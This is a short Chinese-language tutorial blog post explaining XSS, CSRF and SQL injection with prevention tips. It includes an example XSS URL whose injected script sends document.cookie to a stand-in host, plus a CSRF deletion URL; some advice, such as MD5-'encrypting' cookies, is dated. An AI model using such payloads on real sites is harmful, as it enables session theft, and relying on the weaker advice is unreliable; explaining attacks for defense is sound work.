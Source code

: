 ```yaml
---
title: "XSS、CSRF与SQL注入"
date: 2017-03-24 08:37:00
cover: "2.jpg"
category: "前端"
tags:
    - JavaScript
    - 前端安全
---
```

>关于Web安全的内容经常会被问到。前端主要关注的是XSS与CSRF，而以前曾经见过SQL注入，这里一并总结一下。仅为理解概念。

<!--more-->
# XSS与CSRF
## XSS
### 什么是XSS
XSS即Cross Site Script，跨站脚本攻击。

原理是利用网站中提供的输入入口，如表单等，恶意输入一些可执行的恶意代码，如果服务器对原始输入数据不加处理，这些恶意代码就可能会被当做正常代码被执行。

理论上，所有可输入的地方都可能存在XSS漏洞。

#### DOM Based XSS
XSS分为两种，一种是单会话中，通过在URL中添加某些脚本语句，来获得受害人的一些信息。这种攻击局限于DOM内，因此叫做DOM Based XSS。

一个简单易懂的例子：
```
http://www.a.com?content=<script>window.open("www.b.com?param="+document.cookie</script>
```
很多站点，页面内容依赖URL传递，这种站点就容易被XSS攻击。因为一旦URL包含了某些可执行脚本，它就会被解析称为DOM脚本的一部分进行执行。上例中，如果一个登录到a站点的用户点击了该链接，那么包含他登录信息的cookie就会随着`window.open`发给b站点的HTTP请求被发送到b站。
这样b站点就盗取了用户在a站点的登录信息。

#### Stored XSS
这种方式的攻击是，恶意用户通过某种方式将恶意代码存储在服务器上（订阅源）。比如发布一篇带有恶意代码的网络日志，则所有访问该日志的用户都可能被盗取信息。

常见的例子就是钓鱼网站。

### 怎样防范XSS
1. 输入过滤  
  就是不接受用户输入的原始文本内容，而对它们进行编码。比如：
  * <: `&lt;`
  * \>: `&gt;`
  * &: `&amp;`
  * ": `&quot;`
  * 空格: `&nbsp;`
  * ASCII字符: `&#<number>`
  * 关键字：`script`、`javascript`等
2. 输出编码  
  不要在URL中显示用户信息；在需要将用户信息输出到页面中时，使用HTML Encoder编码再输出。   
3. Cookie防盗
  * 用MD5等方法对Cookie加密
  * 对cookie进行IP绑定
  * 让cookie在`document`对象中不可见。设置cookie参数`HTTPOnly`
  * 注意设置`HTTPOnly`只能阻止对cookie的读，并不能阻止对cookie的写

## CSRF
### 什么是CSRF
CSRF即Cross-site request forgery，跨站请求伪造。

盗用用户身份，并以用户身份发送请求。

当用户登录正规站点a后，访问恶意站点b，b就可能模拟用户操作，私自访问a站。比如通过：
```
http://a.com/comment/?type=delete&id=123
```
就可以删除用户在a站的信息。

### 怎样防范CSRF
1. 验证码
  在用户的关键操作上加验证码
2. Session id/Token
  对用户请求添加服务器与客户端协商过的唯一id，在用户发表单时带上这个id以验证身份。

# SQL注入
如果后台数据库操作代码，直接使用用户输入的字符串参数来拼接SQL查询语句，那么就可能存在SQL注入。因为用户的输入将直接作为SQL语句的一部分，如果用户输入了一些SQL语句，那么这些语句将会被查询。

详细请见：[SQL注入攻防入门详解](http://www.cnblogs.com/heyuquan/archive/2012/10/31/2748577.html)

